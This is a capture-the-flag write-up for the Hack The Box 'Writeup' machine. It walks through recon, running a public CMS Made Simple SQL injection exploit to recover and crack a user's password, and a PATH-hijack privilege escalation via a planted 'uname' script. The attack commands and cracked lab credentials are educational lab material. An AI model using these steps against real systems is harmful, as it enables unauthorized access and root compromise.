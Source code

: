 ```yaml
---
tags:
  - HacktheBox
  - Linux
  - Easy
  - CMS-Made-Simple
  - SQL-injection
  - binary-hijacking-privesc
  - B2R
aliases:
  - 10.10.10.138
---
```

# Writeup [Easy]

![./attachments/blunder.png](attachments/IconTable.png)

***

 ### Improved ability:

- CVE Research
- Source code review
- PATH based privilege escalation

### Used tools:

- nmap
- searchsploit
- pspy64

***



## Introduction & Foothold:

Let's start with a common full **nmap** scan on the box: 

```bash
$ nmap -A 10.10.10.138
```

![[attachments/1.png]]

The only available ports are the **port 22** (with _OpenSSH 7.4p1_) and the  **port 80**, running _Apache httpd 2.4.25_.
Because of this version of OpenSSH doesn't have known vulnerability,  let's analyse the root and `/writeup/` folder (contained into the _robots.txt_) with a web browser.

Once inside the root, we will prompted with an old-school floppy-disk background and a tips saying that because the site was attacked, it has been implemented a **DoS protection** that potentially can block us from performing brute-force enumeration.

![[attachments/2.png]]

Let's move analyse the `/writeup/` folder:

![[attachments/3.png]]

Here we can find some old writeups, but nothing very useful. 
However, looking at the **source code**, we are able to find the first important information: the **CMS type**.

![[attachments/4.png]]

Now that we know our target use **CMS Made Simple**, we can search online for public exploit.
Suddenly, though the usage of **searchsploit** we found the right script to compromise our target

```bash
$ searchsploit 'cms made simple'
--------------------------------------------------------------------------------------------------------------------
Exploit Title                                                                       | Path 
---------------------------------------------------------------------------------------------------------------------
CMS Made Simple (CMSMS) Showtime2 - File Upload Remote Code Execution (Metasploit)  | exploits/php/remote/46627.rb
CMS Made Simple 0.10 - 'Lang.php' Remote File Inclusion                             | exploits/php/webapps/26217.html
CMS Made Simple 0.10 - 'index.php' Cross-Site Scripting                             | exploits/php/webapps/26298.txt
CMS Made Simple 1.0.2 - 'SearchInput' Cross-Site Scripting                          | exploits/php/webapps/29272.txt
...
CMS Made Simple < 2.2.10 - SQL Injection                                            | exploits/php/webapps/46635.py
```



## Gaining access as jkr

Analysing every record, notice how the **SQL injection exploit** (_46635_) is valid for every version under the 2.2.10.
Download and execute the script!

```bash
$ searchsploi -m 46635
$ python 46635.py -u http://10.10.10.138/writeup/ --crack -w /usr/share/wordlist/rockyou.txt
[+] Salt for password found: 5a599ef579066807
[+] Username found: jkr
[+] Email found: jkr@writeup.htb
[+] Password found: 62def4866937f08cc13bab43bb14e6f7
[+] Password cracked: raykayjay9
```

Good! We have the user password. Now we can login into the box as **jkr** and proceeds to the privilege escalation phase.

```bas
$ ssh jkr@10.10.10.138
$ cat /home/jkr/user.txt
d4e493fd4068af...
```



## Privilege Escalation

After looking for a long time for passwords, misconfiguration or other forms of escalation, I decided to take a closer look to every process running on the machine, so I downloaded **pspy** and launched it.

![[attachments/5.png]]

 After a while, mine attention were caught by these few lines:

```bash
2019/10/11 10:35:58 CMD: UID=0    PID=2279   | sshd: [accepted]
2019/10/11 10:35:58 CMD: UID=102  PID=2280   | sshd: [net]   
2019/10/11 10:36:00 CMD: UID=0    PID=2281   | sh -c /usr/bin/env -i PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin run-parts --lsbsysinit /etc/update-motd.d > /run/motd.dynamic.new     
2019/10/11 10:36:00 CMD: UID=0    PID=2282   | run-parts --lsbsysinit /etc/update-motd.d
2019/10/11 10:36:00 CMD: UID=0    PID=2283   | /bin/sh /etc/update-motd.d/10-uname
2019/10/11 10:36:00 CMD: UID=0    PID=2284   | /bin/sh /etc/update-motd.d/10-uname
2019/10/11 10:36:00 CMD: UID=0    PID=2285   | sshd: jkr [priv]
```

It seems that every time someone logs in, the `/etc/update-motd.d/10-uname` script is executed.
The contents of the scripts are the following:

```bash
jkr@writeup:/etc/update-motd.d$ cat 10-uname
#!/bin/sh
uname -rnsom
jkr@writeup:/etc/update-motd.d$ uname -rnsom
Linux writeup 4.9.0-8-amd64 x86_64 GNU/Linux
```

It is clear the script execute a `uname` without using any kind of path, searching the right binary into the **$PATH** variable.

In case we are able to write inside one of the directories contained in $PATH and before the script identifies the original uname binary, _we can run arbitrary code as root and execute our escalation_ (that because the `10-uanme` process run with *UID=0*, so it runs as root)

$PATH contains the following directories:

```bash
jkr@writeup:/home/jkr$ ls -l -d /usr/local/sbin /usr/local/bin /usr/sbin /usr/bin /sbin /bin
drwxr-xr-x 2 root root   4096 Apr 19 04:24 /bin
drwxr-xr-x 2 root root   4096 Apr 19 04:14 /sbin
drwxr-xr-x 2 root root  20480 Apr 24 13:13 /usr/bin
drwx-wsr-x 2 root staff 20480 Jul 10 17:27 /usr/local/bin
drwx-wsr-x 2 root staff 12288 Jul 10 17:23 /usr/local/sbin
drwxr-xr-x 2 root root   4096 Apr 19 07:31 /usr/sbin
```

two of which allow *staff* group users to write into them.

Because jkr is part of the staff group, we are able to create a custom script named *uname* that will be executed in place of the original script once someone logs in.

```bash
jkr@writeup:/etc/update-motd.d$ echo "cat /root/root.txt" > /usr/local/sbin/uname
jkr@writeup:/etc/update-motd.d$ chmod +x /usr/local/sbin/uname
jkr@writeup:/etc/update-motd.d$ exit
root@0xbro:~/Documents/CTF/HTB/Writeup# ssh jkr@10.10.10.138
jkr@10.10.10.138's password:
eeba47f60b48ef92...

The programs included with the Devuan GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Devuan GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Wed Jul 10 17:35:19 2019 from 10.10.15.117
jkr@writeup:~$
```

Once this escalation has been found, it is possible get a reverse shell as root rather than performing other actions as superuser.

Author: 0x*bro*<br>
[![Creative Commons License](https://i.creativecommons.org/l/by-nc/4.0/88x31.png)](http://creativecommons.org/licenses/by-nc/4.0/)<br>
This work is licensed under a [Creative Commons Attribution-NonCommercial 4.0 International License](http://creativecommons.org/licenses/by-nc/4.0/).
